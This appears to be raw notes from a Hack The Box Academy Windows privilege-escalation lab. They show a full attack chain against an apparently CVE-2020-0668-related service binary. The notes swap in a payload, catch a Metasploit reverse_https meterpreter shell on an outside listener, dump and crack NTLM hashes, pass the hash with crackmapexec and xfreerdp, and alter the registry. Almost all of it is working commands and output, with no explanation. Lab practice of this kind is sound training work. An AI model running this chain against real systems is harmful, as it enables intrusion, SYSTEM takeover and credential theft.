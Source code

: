 icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          ACADEMY-WINLPE-\htb-student:(I)(F)
                                                                          ACADEMY-WINLPE-\mrb3n:(I)(F)

Successfully processed 1 files; Failed processing 0 files

copy /Y C:\Users\htb-student\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

sudo msfconsole -q

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.60
set LPORT 8443
exploit

net start MozillaMaintenance

(Meterpreter 1)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM

shell

cat c:\Users\Administrator\Desktop\flag.txt

(Meterpreter 5)(C:\Windows\system32) > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::

cat ntlm | awk -F":" '{print $4}' > ADMIN_NTLM

sudo hashcat -m 1000 ADMIN_NTLM /usr/share/wordlists/rockyou.txt

5835048ce94ad0564e29a924a03510ef:password1 

crackmapexec smb 10.129.43.33 -u Administrator -d . -H 7796ee39fd3a9c3a1844556115ae1a54

xfreerdp  /v:10.129.43.33 /u:Administrator /pth:7796ee39fd3a9c3a1844556115ae1a54
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
ERROR: Access is denied.


download c:\Users\Administrator\Desktop\flag.txt
dir c:\Users\Administrator\

cd c:\Users\Administrator\

ls c:\Users\Administrator\Desktop\

ls c:/Users/Administrator/Desktop/
download c:/Users/Administrator/Desktop/flag.txt

cat /home/htb-ac-786011/CVE-2020-0668.exe/flag.txt
el3vatEd_1nstall$_v3ry_r1sky
